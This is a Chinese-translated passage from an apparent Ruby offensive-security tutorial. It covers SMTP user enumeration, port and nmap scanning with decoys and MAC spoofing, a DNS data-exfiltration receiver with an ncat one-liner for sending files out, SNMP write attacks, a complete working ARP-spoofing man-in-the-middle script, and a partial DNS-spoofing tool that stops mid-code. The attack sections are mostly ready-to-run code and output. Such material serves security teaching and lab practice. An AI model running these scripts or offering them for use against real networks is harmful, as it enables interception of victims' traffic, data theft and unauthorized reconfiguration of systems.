+   [更多有用的邮件操作示例 | alvinalexander.com](http://alvinalexander.com/search/node/ruby%20mail)

# SMTP 枚举

# SMTP 枚举

与 SMTP 交互很容易，因为该协议很直接。

```
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
#
require 'socket'

users =
    %w{
        root rubyfu www apache2 bin daemon sshd
        gdm  nobody ftp operator postgres mysqld
      }
found = []

@s = TCPSocket.new('192.168.0.19', 25)
@banner = @s.recv(1024).chomp
users.each do |user|
  @s.send "VRFY #{user} \n\r", 0
  resp = @s.recv(1024).chomp
  found << user if resp.split[2] == user
end
@s.close

puts "[*] Result:-"
puts "[+] Banner: " + @banner
puts "[+] Found users: \n#{found.join("\n")}" 
```

结果

```
[*] Result:-
[+] Banner: 220 VulnApps.localdomain ESMTP Postfix
[+] Found users: 
root
rubyfu
www
bin
daemon
sshd
gdm
nobody
ftp
operator
postgres 
```

**轮到你了**，还有其他命令可以使用，比如`EXPN`，`RCPT`。增强上述脚本以包含所有这些命令，以避免可能遇到的受限制命令。将你的代码和输出发推给**@Rubyfu**。

# 网络扫描

# 网络扫描

## 网络 ping 扫描

需要 net-ping gem

```
gem install net-ping 
```

```
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
#
require 'net/ping'

@icmp = Net::Ping::ICMP.new(ARGV[0])
rtary = []
pingfails = 0
repeat = 5
puts 'starting to ping'
(1..repeat).each do
  if @icmp.ping
    rtary << @icmp.duration
    puts "host replied in #{@icmp.duration}"
  else
    pingfails += 1
    puts "timeout"
  end
end

avg = rtary.inject(0) {|sum, i| sum + i}/(repeat - pingfails)
puts "Average round-trip is #{avg}\n"
puts "#{pingfails} packets were dropped" 
```

## 端口扫描

如果你理解了我们在 Ruby Socket 部分所展示的内容，那么在这里我们将总结并进行一些依赖于它的应用。**scanner.rb**

```
#!/usr/bin/env ruby
#
# KING SABRI | @KINGSABRI
#
require 'socket'
require 'thread'
require 'timeout'

host = ARGV[0]

def scan(host)
  (0..1024).each do |port|
    Thread.new {
      begin
        timeout(3) do                    # timeout of running operation
          s = TCPSocket.new(host, port)            # Create new socket
          puts "[+] #{host} | Port #{port} open"
          s.close
        end
      rescue Errno::ECONNREFUSED
        # puts "[!] #{host} | Port #{port} closed"
        next
      rescue Timeout::Error
        puts "[!] #{host} | Port #{port} timeout/filtered"
        next
      end
    }.join
  end
end

scan host 
```

运行它

```
ruby scanner.rb 45.33.32.156    # scanme.nmap.com

[+] 45.33.32.156 | Port 22 open
[+] 45.33.32.156 | Port 80 open
[!] 45.33.32.156 | Port 81 timeout
[!] 45.33.32.156 | Port 85 timeout
[!] 45.33.32.156 | Port 119 timeout
[!] 45.33.32.156 | Port 655 timeout
[!] 45.33.32.156 | Port 959 timeout 
```

* * *

# Nmap

# Nmap

```
gem install ruby-nmap ronin-scanners gems 
```

只要你了解如何使用 nmap 以及其基本工作原理，你会发现这个库很容易使用。你可以完成大部分 nmap 的功能

### 基本扫描

Ruby-nmap gem 是 nmap 的 Ruby 接口，这是一个探索工具和安全/端口扫描器。

+   提供了一个运行 nmap 的 Ruby 接口。

+   提供了一个解析 nmap XML 扫描文件的解析器。

让我们看看它是如何工作的。

```
require 'nmap'
scan = Nmap::Program.scan(:targets => '192.168.0.15', :verbose => true) 
```

### SYN 扫描

```
require 'nmap/program'

Nmap::Program.scan do |nmap|
  nmap.syn_scan = true
  nmap.service_scan = true
  nmap.os_fingerprint = true
  nmap.xml = 'scan.xml'
  nmap.verbose = true

  nmap.ports = [20,21,22,23,25,80,110,443,512,522,8080,1080,4444,3389]
  nmap.targets = '192.168.1.*'
end 
```

每个选项如`nmap.syn_scan`或`nmap.xml`被视为一个*任务*。[文档](http://www.rubydoc.info/gems/ruby-nmap/frames "官方文档")显示了该库支持的[扫描任务/选项](http://www.rubydoc.info/gems/ruby-nmap/Nmap/Task)列表。

### 全面扫描

```
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
require 'nmap/program'

Nmap::Program.scan do |nmap|

  # Target
  nmap.targets = '192.168.0.1'

  # Verbosity and Debugging
  nmap.verbose = true
  nmap.show_reason = true

  # Port Scanning Techniques:
  nmap.syn_scan = true          # You can use nmap.all like -A in nmap

  # Service/Version Detection:
  nmap.service_scan = true
  nmap.os_fingerprint = true
  nmap.version_all = true

  # Script scanning
  nmap.script = "all"

  nmap.all_ports                # nmap.ports = (0..65535).to_a

  # Firewall/IDS Evasion and Spoofing:
  nmap.decoys = ["google.com","yahoo.com","hotmail.com","facebook.com"]
  nmap.spoof_mac = "00:11:22:33:44:55"
  # Timing and Performance
  nmap.min_parallelism = 30
  nmap.max_parallelism = 130

  # Scan outputs
  nmap.output_all = 'rubyfu_scan'

end 
```

### 解析 nmap XML 扫描文件

我在 `scanme.nmap.org` 上进行了一个激进的扫描

```
nmap -n -v -A scanme.nmap.org -oX scanme.nmap.org.xml 
```

我从官方文档中引用了代码（[`github.com/sophsec/ruby-nmap`](https://github.com/sophsec/ruby-nmap)）

```
require 'nmap/xml'

Nmap::XML.new(ARGV[0]) do |xml|
  xml.each_host do |host|
    puts "[#{host.ip}]"
    # Print: Port/Protocol      port_status      service_name
    host.each_port do |port|
      puts "  #{port.number}/#{port.protocol}\t#{port.state}\t#{port.service}"
    end
  end
end 
```

返回

```
[45.33.32.156]
  22/tcp        open    ssh
  80/tcp        open    http
  9929/tcp      open    nping-echo 
```

[`github.com/ronin-ruby/ronin-scanners`](https://github.com/ronin-ruby/ronin-scanners)

* * *

# DNS

# DNS

## DNS 查找

### 正向 DNS 查找（主机到 IP）

```
require 'resolv'
Resolv.getaddresses "rubyfu.net" 
```

返回所有 IP 的数组

```
["23.23.122.48", "107.20.161.48", "174.129.41.187"] 
```

或使用 `Resolv.getaddress` 只获取一个地址

### 反向 DNS 查找（IP 到主机）

```
require 'resolv'
Resolv.getnames "23.23.122.48" 
```

返回所有主机名的数组，如果 PTR 被分配

```
["ec2-174-129-41-187.compute-1.amazonaws.com"] 
```

或使用 `Resolv.name` 只获取一个名称

## DNS 数据外泄

DNS 外部连接通常允许在本地网络中使用，这是使用 DNS 将数据传输到外部服务器的主要优势。

**dnsteal.rb**

```
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
# for hex in $(xxd -p ethernet-cable.jpg); do echo $hex | ncat -u localhost 53 ; done
# 
require 'socket'

if ARGV.size < 1
  puts "[+] sudo ruby #{__FILE__} <FILENAME>"
  exit
else
  file = ARGV[0]
end

# Open UDP Socket and bind it to port 53 on all interfaces
udpsoc = UDPSocket.new
udpsoc.bind('0.0.0.0', 53)

begin

  data     = ''
  data_old = ''

  loop do
    response = udpsoc.recvfrom(1000)
    response = response[0].force_encoding("ISO-8859-1").encode("utf-8")
    data = response.match(/[^<]a-f0-9.*a-f0-9/i).to_s

    # Write received data to file
    File.open(file, 'a') do |d|
      d.write [data].pack("H*") unless data == data_old     # Don't write the same data twice(poor workaround)
      puts data unless data == data_old
    end

    data_old = data 
  end

rescue Exception => e
  puts e
end 
```

运行它

```
ruby dnsteal.rb image.jpg 
```

* * *

+   [dnsteal.py](https://github.com/m57/dnsteal)

# DNS 枚举

# DNS 枚举

```
gem install net-dns 
```

在 ruby 脚本中

```
require 'net/dns' 
```

### 正向 DNS 查找

主要用途是

```
require 'net/dns'
resolver = Net::DNS::Resolver.start("google.com") 
```

返回

```
;; Answer received from 127.0.1.1:53 (260 bytes)
;;
;; HEADER SECTION
;; id = 36568
;; qr = 1       opCode: QUERY   aa = 0  tc = 0  rd = 1
;; ra = 1       ad = 0  cd = 0  rcode = NoError
;; qdCount = 1  anCount = 6     nsCount = 4     arCount = 4

;; QUESTION SECTION (1 record):
;; google.com.                  IN      A

;; ANSWER SECTION (6 records):
google.com.             31      IN      A       64.233.183.102
google.com.             31      IN      A       64.233.183.113
google.com.             31      IN      A       64.233.183.100
google.com.             31      IN      A       64.233.183.139
google.com.             31      IN      A       64.233.183.101
google.com.             31      IN      A       64.233.183.138

;; AUTHORITY SECTION (4 records):
google.com.             152198  IN      NS      ns1.google.com.
google.com.             152198  IN      NS      ns3.google.com.
google.com.             152198  IN      NS      ns4.google.com.
google.com.             152198  IN      NS      ns2.google.com.

;; ADDITIONAL SECTION (4 records):
ns3.google.com.         152198  IN      A       216.239.36.10
ns4.google.com.         152198  IN      A       216.239.38.10
ns2.google.com.         152198  IN      A       216.239.34.10
ns1.google.com.         345090  IN      A       216.239.32.10 
```

正如您从上面的响应中可以看到的那样，有 5 个部分

+   **头部部分：** DNS 查找头部

+   **问题部分：** DNS 问题，

+   **答案部分：** 精确查找答案的数组（根据查找类型。例如 A、NS、MX 等）

+   **权限部分：** 权威名称服务器数组

+   **附加部分：** 名字服务器查找的数组

由于这都是对象，我们可以像这样调用每个部分

```
resolver.header
resolver.question
resolver.answer
resolver.authority
resolver.additional 
```

#### A 记录

因为 *A* 记录是默认的，我们可以像上面的示例那样操作

```
resolver = Net::DNS::Resolver.start("google.com") 
```

或者在一行中获得确切的**`答案`**。

```
resolver = Net::DNS::Resolver.start("google.com").answer 
```

将返回一个包含分配给该域的所有 IP 的数组

```
[google.com.             34      IN      A       74.125.239.35,
 google.com.             34      IN      A       74.125.239.39,
 google.com.             34      IN      A       74.125.239.33,
 google.com.             34      IN      A       74.125.239.34,
 google.com.             34      IN      A       74.125.239.36,
 google.com.             34      IN      A       74.125.239.32,
 google.com.             34      IN      A       74.125.239.46,
 google.com.             34      IN      A       74.125.239.40,
 google.com.             34      IN      A       74.125.239.38,
 google.com.             34      IN      A       74.125.239.37,
 google.com.             34      IN      A       74.125.239.41] 
```

### MX 查找

```
mx = Net::DNS::Resolver.start("google.com", Net::DNS::MX).answer 
```

返回一个数组

```
[google.com.             212     IN      MX      40 alt3.aspmx.l.google.com.,
 google.com.             212     IN      MX      30 alt2.aspmx.l.google.com.,
 google.com.             212     IN      MX      20 alt1.aspmx.l.google.com.,
 google.com.             212     IN      MX      50 alt4.aspmx.l.google.com.,
 google.com.             212     IN      MX      10 aspmx.l.google.com.] 
```

### 所有查找

```
any = Net::DNS::Resolver.start("facebook.com", Net::DNS::ANY).answer 
```

返回

```
[facebook.com.           385     IN      A       173.252.120.6,
 facebook.com.           85364   IN      TXT     ,
 facebook.com.           149133  IN      NS      b.ns.facebook.com.,
 facebook.com.           149133  IN      NS      a.ns.facebook.com.] 
```

对于类型列表，请参阅 [gem 文档](http://www.rubydoc.info/gems/net-dns/Net/DNS/RR/Types)

### 反向 DNS 查找

```
resolver = Net::DNS::Resolver.new
query = resolver.query("69.171.239.12", Net::DNS::PTR) 
```

如果您想指定要使用的名称服务器，它支持名称服务器数组

```
resolver = Net::DNS::Resolver.new(:nameserver => "8.8.8.8") 
```

或更新对象

```
resolver = Net::DNS::Resolver.new
resolver.nameservers = ["8.8.4.4" , "8.8.8.8"] 
```

* * *

[`searchsignals.com/tutorials/reverse-dns-lookup/`](http://searchsignals.com/tutorials/reverse-dns-lookup/)

# SNMP 枚举

# SNMP 枚举

+   安装 ruby-snmp

    ```
    gem install snmp 
    ```

## 获取请求

错误配置 SNMP 服务会给攻击者带来大量信息。让我们看看我们如何与服务器交互以检索一些信息。

```
# KING SABRI | @KINGSABRI
require 'snmp'

# Connect to SNMP server
manager = SNMP::Manager.new(:host => '192.168.0.17')

# General info
puts "SNMP Version: " + manager.config[:version]
puts "Community: " + manager.config[:community]
puts "Write Community: " + manager.config[:WriteCommunity]

# Get hostname, contact and location
hostname = manager.get("sysName.0").each_varbind.map {|vb| vb.value.to_s}       # manager.get("sysName.0").varbind_list[0]
contact  = manager.get("sysContact.0").each_varbind.map {|vb| vb.value.to_s}    # manager.get("sysContact.0").varbind_list[0]
location = manager.get("sysLocation.0").each_varbind.map {|vb| vb.value.to_s}   # manager.get("sysLocation.0").varbind_list[0]

# It would take an array of OIDs
response = manager.get(["sysName.0", "sysContact.0", "sysLocation.0"])
response.each_varbind do |vb|
    puts vb.value.to_s
end 
```

> 注意：OID 名称区分大小写

## 设置请求

有时我们会得到 SNMP 的私有/管理字符串。此时，我们可能能够对系统、路由器、交换机配置进行更改。

```
require 'snmp'
include SNMP

# Connect to SNMP server
manager = SNMP::Manager.new(:host => '192.168.0.17')
# Config our request to OID
varbind = VarBind.new("1.3.6.1.2.1.1.5.0", OctetString.new("Your System Got Hacked"))
# Send your request with varbind our settings
manager.set(varbind)
# Check our changes
manager.get("sysName.0").each_varbind.map {|vb| vb.value.to_s}
manager.close 
```

* * *

# 数据包操作

# 数据包操作

在这一章中，我们将尝试使用令人惊叹的 lib，PacketFu 进行变体实现^(1)。

## PacketFu - 数据包操作

**PacketFu 特性**

+   操纵 TCP 协议

+   操纵 UDP 协议

+   操纵 ICMP 协议

+   数据包捕获 - 支持 TCPdump 风格^(2)

+   读取和写入 PCAP 文件

### 安装 PacketFu

在安装 packetfu gem 之前，您需要安装 `ruby-dev` 和 `libpcap-dev`

```
apt-get -y install libpcap-dev 
```

然后安装 packetfu 和 pcaprub（用于从网络接口读取和写入数据包）

+   安装 packetfu 和 pcaprub gems

    ```
    gem install packetfu pcaprub 
    ```

### 基本用法

#### 获取您的接口信息

```
require 'packetfu'

ifconfig = PacketFu::Utils.ifconfig("wlan0")
ifconfig[:iface]
ifconfig[:ip_saddr]
ifconfig[:eth_saddr] 
```

#### 获取远程主机的 MAC 地址

```
PacketFu::Utils.arp("192.168.0.21", :iface => "wlan0") 
```

#### 读取 Pcap 文件

```
PacketFu::PcapFile.read_packets("file.pcap") 
```

### 构建 TCP Syn 数据包

```
require 'packetfu'

def pkts
  #$config = PacketFu::Config.new(PacketFu::Utils.whoami?(:iface=> "wlan0")).config     # set interface
  $config = PacketFu::Config.new(:iface=> "wlan0").config   # use this line instead of above if you face `whoami?': uninitialized constant PacketFu::Capture (NameError)

  #
  #--> Build TCP/IP
  #
  #- Build Ethernet header:---------------------------------------
  pkt = PacketFu::TCPPacket.new(:config => $config , :flavor => "Linux")    # IP header
  #     pkt.eth_src = "00:11:22:33:44:55"        # Ether header: Source MAC ; you can use: pkt.eth_header.eth_src
  #     pkt.eth_dst = "FF:FF:FF:FF:FF:FF"        # Ether header: Destination MAC ; you can use: pkt.eth_header.eth_dst
  pkt.eth_proto                                  # Ether header: Protocol ; you can use: pkt.eth_header.eth_proto
  #- Build IP header:---------------------------------------------
  pkt.ip_v     = 4                     # IP header: IPv4 ; you can use: pkt.ip_header.ip_v
  pkt.ip_hl    = 5                     # IP header: IP header length ; you can use: pkt.ip_header.ip_hl
  pkt.ip_tos   = 0                     # IP header: Type of service ; you can use: pkt.ip_header.ip_tos
  pkt.ip_len   = 20                    # IP header: Total Length ; you can use: pkt.ip_header.ip_len
  pkt.ip_id                            # IP header: Identification ; you can use: pkt.ip_header.ip_id
  pkt.ip_frag  = 0                     # IP header: Don't Fragment ; you can use: pkt.ip_header.ip_frag
  pkt.ip_ttl   = 115                   # IP header: TTL(64) is the default ; you can use: pkt.ip_header.ip_ttl
  pkt.ip_proto = 6                     # IP header: Protocol = tcp (6) ; you can use: pkt.ip_header.ip_proto
  pkt.ip_sum                           # IP header: Header Checksum ; you can use: pkt.ip_header.ip_sum
  pkt.ip_saddr = "2.2.2.2"             # IP header: Source IP. use $config[:ip_saddr] if you want your real IP ; you can use: pkt.ip_header.ip_saddr
  pkt.ip_daddr = "10.20.50.45"         # IP header: Destination IP ; you can use: pkt.ip_header.ip_daddr
  #- TCP header:-------------------------------------------------
  pkt.payload        = "Hacked!"       # TCP header: packet header(body)
  pkt.tcp_flags.ack  = 0               # TCP header: Acknowledgment
  pkt.tcp_flags.fin  = 0               # TCP header: Finish
  pkt.tcp_flags.psh  = 0               # TCP header: Push
  pkt.tcp_flags.rst  = 0               # TCP header: Reset
  pkt.tcp_flags.syn  = 1               # TCP header: Synchronize sequence numbers
  pkt.tcp_flags.urg  = 0               # TCP header: Urgent pointer
  pkt.tcp_ecn        = 0               # TCP header: ECHO
  pkt.tcp_win        = 8192            # TCP header: Window
  pkt.tcp_hlen       = 5               # TCP header: header length
  pkt.tcp_src        = 5555            # TCP header: Source Port (random is the default )
  pkt.tcp_dst        = 4444            # TCP header: Destination Port (make it random/range for general scanning)
  pkt.recalc                           # Recalculate/re-build whole pkt (should be at the end)
  #--> End of Build TCP/IP

  pkt_to_a = [pkt.to_s]
  return pkt_to_a
end

def scan
  pkt_array = pkts.sort_by{rand}
  puts "-" * " [-] Send Syn flag".length + "\n"  + " [-] Send Syn flag " + "\n"

  inj = PacketFu::Inject.new(:iface => $config[:iface] , :config => $config, :promisc => false)
  inj.array_to_wire(:array => pkt_array)        # Send/Inject the packet through connection

  puts " [-] Done" + "\n" + "-" * " [-] Send Syn flag".length
end

scan 
```

### 简单的 TCPdump

让我们看看我们如何

```
require 'packetfu'

capture = PacketFu::Capture.new(:iface=> "wlan0", :promisc => true, :start => true)
capture.show_live 
```

### 简单 IDS

这是一个简单的 IDS，将打印出任何通信的源和目的地，其中包含“被黑客入侵”的有效负载

```
require 'packetfu'

capture = PacketFu::Capture.new(:iface => "wlan0", :start => true, :filter => "ip")
loop do
  capture.stream.each do |pkt|
    packet = PacketFu::Packet.parse(pkt)
    puts "#{Time.now}: " + "Source IP: #{packet.ip_saddr}" + " --> " + "Destination IP: #{packet.ip_daddr}" if packet.payload =~ /hacked/i
  end
end 
```

现在尝试使用 Netcat 打开的任何端口，然后发送被黑客入侵的信息

```
echo "Hacked" | nc -nv 192.168.0.15 4444 
```

返回

```
2015-03-04 23:20:38 +0300: Source IP: 192.168.0.13 --> Destination IP: 192.168.0.15 
```

* * *

> ¹. [PacketFu 主页](https://github.com/packetfu/packetfu) ↩
> 
> ². [TCPdump 速查表](http://packetlife.net/media/library/12/tcpdump.pdf) ↩

# ARP 欺骗

# ARP 欺骗

正如你所知，ARP 欺骗攻击是中间人攻击的核心。在这部分中，我们将了解如何编写简单而有效的 ARP 欺骗工具，以便在以后的欺骗攻击中使用它。

#### 场景

在这种情况下，我们有 3 台机器，如下所示。

```
 |Attacker|
                 |
                 ٧
|Victim| -----------------> |Router| ---> Internet 
```

这里是每��主题的 IP 和 MAC 地址的列表在下表中^(1)

| 主机/信息 | IP 地址 | MAC 地址 |
| --- | --- | --- |
| 攻击者 | 192.168.0.100 | 3C:77:E6:68:66:E9 |
| 受害者 | 192.168.0.21 | 00:0C:29:38:1D:61 |
| 路由器 | 192.168.0.1 | 00:50:7F:E6:96:20 |

要了解我们/攻击者的接口信息

```
info = PacketFu::Utils.whoami?(:iface => "wlan0") 
```

返回一个哈希

```
{:iface=>"wlan0",
 :pcapfile=>"/tmp/out.pcap",
 :eth_saddr=>"3c:77:e6:68:66:e9",
 :eth_src=>"<w\xE6hf\xE9",
 :ip_saddr=>"192.168.0.13",
 :ip_src=>3232235533,
 :ip_src_bin=>"\xC0\xA8\x00\r",
 :eth_dst=>"\x00P\x7F\xE6\x96 ",
 :eth_daddr=>"00:50:7f:e6:96:20"} 
```

因此，你可以像任何哈希`info[:iface]`，`info[:ip_saddr]`，`info[:eth_saddr]`等提取这些信息。

**构建受害者的 ARP 数据包**

```
# Build Ethernet header
arp_packet_victim = PacketFu::ARPPacket.new
arp_packet_victim.eth_saddr = "3C:77:E6:68:66:E9"       # our MAC address
arp_packet_victim.eth_daddr = "00:0C:29:38:1D:61"       # the victim's MAC address
# Build ARP Packet
arp_packet_victim.arp_saddr_mac = "3C:77:E6:68:66:E9"   # our MAC address
arp_packet_victim.arp_daddr_mac = "00:0C:29:38:1D:61"   # the victim's MAC address
arp_packet_victim.arp_saddr_ip = "192.168.0.1"          # the router's IP
arp_packet_victim.arp_daddr_ip = "192.168.0.21"         # the victim's IP
arp_packet_victim.arp_opcode = 2                        # arp code 2 == ARP reply 
```

**构建路由器数据包**

```
# Build Ethernet header
arp_packet_router = PacketFu::ARPPacket.new
arp_packet_router.eth_saddr = "3C:77:E6:68:66:E9"       # our MAC address
arp_packet_router.eth_daddr = "00:0C:29:38:1D:61"       # the router's MAC address
# Build ARP Packet
arp_packet_router.arp_saddr_mac = "3C:77:E6:68:66:E9"   # our MAC address
arp_packet_router.arp_daddr_mac = "00:50:7F:E6:96:20"   # the router's MAC address
arp_packet_router.arp_saddr_ip = "192.168.0.21"         # the victim's IP
arp_packet_router.arp_daddr_ip = "192.168.0.1"          # the router's IP
arp_packet_router.arp_opcode = 2                        # arp code 2 == ARP reply 
```

**运行 ARP 欺骗攻击**

```
# Send our packet through the wire
while true
    sleep 1
    puts "[+] Sending ARP packet to victim: #{arp_packet_victim.arp_daddr_ip}"
    arp_packet_victim.to_w(info[:iface])
    puts "[+] Sending ARP packet to router: #{arp_packet_router.arp_daddr_ip}"
    arp_packet_router.to_w(info[:iface])
end 
```

来源^(2)

将所有内容整合在一起并以`root`身份运行

```
#!/usr/bin/env ruby
#
# ARP Spoof Basic script
#
require 'packetfu'

attacker_mac = "3C:77:E6:68:66:E9"
victim_ip    = "192.168.0.21"
victim_mac   = "00:0C:29:38:1D:61"
router_ip    = "192.168.0.1"
router_mac   = "00:50:7F:E6:96:20"

info = PacketFu::Utils.whoami?(:iface => "wlan0")
#
# Victim
#
# Build Ethernet header
arp_packet_victim = PacketFu::ARPPacket.new
arp_packet_victim.eth_saddr = attacker_mac        # attacker MAC address
arp_packet_victim.eth_daddr = victim_mac          # the victim's MAC address
# Build ARP Packet
arp_packet_victim.arp_saddr_mac = attacker_mac    # attacker MAC address
arp_packet_victim.arp_daddr_mac = victim_mac      # the victim's MAC address
arp_packet_victim.arp_saddr_ip = router_ip        # the router's IP
arp_packet_victim.arp_daddr_ip = victim_ip        # the victim's IP
arp_packet_victim.arp_opcode = 2                  # arp code 2 == ARP reply

#
# Router
#
# Build Ethernet header
arp_packet_router = PacketFu::ARPPacket.new
arp_packet_router.eth_saddr = attacker_mac        # attacker MAC address
arp_packet_router.eth_daddr = router_mac          # the router's MAC address
# Build ARP Packet
arp_packet_router.arp_saddr_mac = attacker_mac    # attacker MAC address
arp_packet_router.arp_daddr_mac = router_mac      # the router's MAC address
arp_packet_router.arp_saddr_ip = victim_ip        # the victim's IP
arp_packet_router.arp_daddr_ip = router_ip        # the router's IP
arp_packet_router.arp_opcode = 2                  # arp code 2 == ARP reply

while true
    sleep 1
    puts "[+] Sending ARP packet to victim: #{arp_packet_victim.arp_daddr_ip}"
    arp_packet_victim.to_w(info[:iface])
    puts "[+] Sending ARP packet to router: #{arp_packet_router.arp_daddr_ip}"
    arp_packet_router.to_w(info[:iface])
end 
```

> 注意：不要忘记在系统上启用数据包转发，以允许受害者浏览互联网。
> 
> `echo "1" > /proc/sys/net/ipv4/ip_forward`

返回，是时候开始 wiresharking 了 ;)

```
[+] Sending ARP packet to victim: 192.168.0.21
[+] Sending ARP packet to router: 192.168.0.1
.
.
.
[+] Sending ARP packet to victim: 192.168.0.21
[+] Sending ARP packet to router: 192.168.0.1
[+] Sending ARP packet to victim: 192.168.0.21
[+] Sending ARP packet to router: 192.168.0.1 
```

* * *

> ¹. 创建表格的简便方法 - [表格生成器](http://www.tablesgenerator.com/markdown_tables) ↩
> 
> ². 来源：[使用 PacketFu 进行 DNS 欺骗](http://crushbeercrushcode.org/2012/10/ruby-dns-spoofing-using-packetfu/) ↩

# DNS 欺骗

# DNS 欺骗

继续我们的攻击通过 ARP 欺骗，我们希望将受害者的 DNS 请求更改为我们喜欢的任何目的地。

### 场景

```
 |Attacker|
                    | AttackerSite
                    ٧                      AttackerSite
|Victim| ----------/ \----------> |Router| ----------> Internet
          AnySite      AttackerSite 
```

> 保持 ARP 欺骗攻击持续进行

ARP 欺骗攻击的相同 IP

| 主机 | IP 地址 |
| --- | --- |
| 攻击者 | 192.168.0.100 |
| 受害者 | 192.168.0.21 |
| 路由器 | 192.168.0.1 |

现在我们可以拦截来自受害者机器的 DNS 查询数据包。由于 PacketFu 支持捕获中的过滤器（以减少捕获的数据包数量），我们将使用`udp and port 53 and host`过滤器，然后检查捕获的数据包以确保它是一个查询，然后找到请求的域名。**下载 DNS 数据包**。

从 Wireshark，如果我们深入研究`域名系统（查询）`中的 DNS 查询有效负载，我们可以看到它以十六进制格式呈现。

|  |
| --- |
| **图 1.** DNS 查询有效负载 |

让我们解剖我们的有效负载

```
0000   e7 1d 01 00 00 01 00 00 00 00 00 00 07 74 77 69
0010   74 74 65 72 03 63 6f 6d 00 00 01 00 01 
```

+   前两个字节是**事务 ID**，我们现在不关心它。（我们的情况：`\xe7\x1d`）

+   接下来的 2 个字节是**标志位**^(3)。（我们需要：`\x01\x00` = \x10）

+   此外，在**查询**部分中包含

```
0000   07 74 77 69 74 74 65 72 03 63 6f 6d 00 00 01 00
0010   01 
```

+   **查询**从有效载荷的 *第 13 个字节* 开始。

    +   第 13 个字节指定域名的长度 *在* *第一个点之前*（不包括最后一个点 com 或其他顶级域）。 （我们的情况：`\x07`）**尝试：**`[%w{ 74 77 69 74 74 65 72 }.join].pack("H*")`

        +   注意 "twitter.com" 的域名等于 `\x07`，但是 "www.twitter.com" 的域名等于 `\x03`，子域名也是同样的考虑。

        +   第一个点后的每个点都将被后面字符的长度替换。

            **例如：** www.google.co.uk

            +   第一个长度（**www**）=> 将被替换为 `\x03`

            +   第一个点（**.google**）=> 将被替换为 `\x06`

            +   第二个点（**.co**）=> 将被替换为 `\x02`

            +   第三个点（**.uk**）=> 将被替换为 `\x02`

    +   域名字符串的最后以 `\x00` 结束。

    +   接下来的 2 个字节指的是查询的**类型**^(4)。（我们的情况：`\x00\x01`）

**现在怎么办？！**

+   我们需要开始在特定接口上捕获/嗅探数据包。

+   我们需要在我们的接口上启用混杂模式

+   我们需要仅捕获端口 53 上的 UDP 数据包。

+   我们需要解析/分析仅有效的 UDP 数据包。

+   我们需要确保此数据包是 DNS 查询

+   我们需要获取查询/请求的域名

    +   我们需要知道域名的长度

    +   我们需要获取 FQDN

+   构建 DNS 响应

+   用我们想要的任何域名替换请求的域名

+   重新注入数据包到受害者连接并发送

我们将划分我们的任务，然后将其封装在一个脚本中。

```
#!/usr/bin/env ruby
#
require 'packetfu'

include PacketFu

#
# * We need to start capturing/sniffing on specific interface
# * We need to enable promiscuous mode on our interface
# * We need to capture UDP packets on port 53 only
#
filter = "udp and port 53 and host " + "192.168.0.21"
capture = Capture.new(:iface => "wlan0",:start => true, :promisc => true, :filter => filter, :save => true)

# * We need to get the queried/requested domain
#    * We need to know the domain length
#    * We need to get the FQDN
#
# Convert DNS Payload to readable - Find The FQDN
#
def readable(raw_domain)
  # Prevent processing non domain
  if raw_domain[0].ord == 0
    puts "ERROR : THE RAW STARTS WITH 0"
    return raw_domain[1..-1]
  end

  fqdn = ""
  length_offset = raw_domain[0].ord
  full_length   = raw_domain[ 0..length_offset ].length
  domain_name   = raw_domain[(full_length - length_offset)..length_offset]

  while length_offset != 0
    fqdn << domain_name + "."
    length_offset = raw_domain[full_length].ord
    domain_name   = raw_domain[full_length + 1..full_length + length_offset]
    full_length   = raw_domain[0..full_length + length_offset].length
  end

  return fqdn.chomp!('.')
end

# * We need parse/analyze the valid UDP packets only
# * We need to make sure this packet is a DNS query
#
# Find the DNS packets
#
capture.stream.each do |pkt|
  # Make sure we can parse the packet; if we can, parse it
  if UDPPacket.can_parse?(pkt)
    @packet = Packet.parse(pkt)

    # Make sure we have a query packet
    dns_query = @packet.payload[2..3].to_s

    if dns_query == "\x01\x00"
      # Get the domain name into a readable format
      domain_name = @packet.payload[12..-1].to_s # FULL QUERY
      fqdn = readable(domain_name)

      # Ignore non query packet
      next if domain_name.nil?

      puts "DNS request for: " + fqdn
    end
  end
end 
```

到目前为止，我们已成功完成 ARP 欺骗，然后是 DNS 捕获，但我们仍然需要替换/欺骗原始响应到我们的域。例如攻击者区域，现在我们必须构建一个 DNS 响应，而不是伪造的发送。那么我们需要什么？

+   我们将使用取得的 IP（欺骗 IP）来重定向用户。

    +   使用 `to_i` 和 `pack` 方法将其转换为十六进制。

+   然后我们使用 `@ourInfo` 中包含的数据（IP 和 MAC）创建一个新的 UDP 数据包，并填写正常的 UDP 字段。

    +   我大部分信息直接来自 DNS 查询数据包。

+   下一步是创建 DNS 响应。

    +   最好的理解此处代码的方式是查看 DNS 标头，然后

    +   取十六进制值的位图并将其应用于标头。

    +   这将让你看到设置了哪些标志位。

+   从这里，我们只需为 UDP 数据包计算校验和，然后发送到目标机器。

|  |
| --- |
| **图 2.** DNS 响应有效载荷 |

```
 spoofing_ip = "69.171.234.21"
spoofing_ip.split('.').map {|octet| octet.to_i}.pack('c*')

  response = UDPPacket.new(:config => PacketFu::Utils.ifconfig("wlan0"))
  response.udp_src   = packet.udp_dst
  response.udp_dst   = packet.udp_src
  response.ip_saddr  = packet.ip_daddr
  response.ip_daddr  = "192.168.0.21"
  response.eth_daddr = "00:0C:29:38:1D:61" 
```

封装

```
#!/usr/bin/env ruby
# -*- coding: binary -*-

# Start the capture process
require 'packetfu'
require 'pp'
include PacketFu

def readable(raw_domain)

  # Prevent processing non domain
  if raw_domain[0].ord == 0
    puts "ERROR : THE RAW STARTS WITH 0"
    return raw_domain[1..-1]
  end

  fqdn = ""
  length_offset = raw_domain[0].ord
  full_length   = raw_domain[ 0..length_offset ].length
  domain_name   = raw_domain[(full_length - length_offset)..length_offset]

  while length_offset != 0
    fqdn << domain_name + "."
    length_offset = raw_domain[full_length].ord
    domain_name   = raw_domain[full_length + 1 .. full_length + length_offset]
    full_length   = raw_domain[0 .. full_length + length_offset].length
  end

  return fqdn.chomp!('.')
end

#
# Send Response
#
def spoof_response(packet, domain)

  attackerdomain_name = 'rubyfu.net'
  attackerdomain_ip   = '54.243.253.221'.split('.').map {|oct| oct.to_i}.pack('c*')  # Spoofing IP

  # Build UDP packet
  response = UDPPacket.new(:config => PacketFu::Utils.ifconfig("wlan0"))
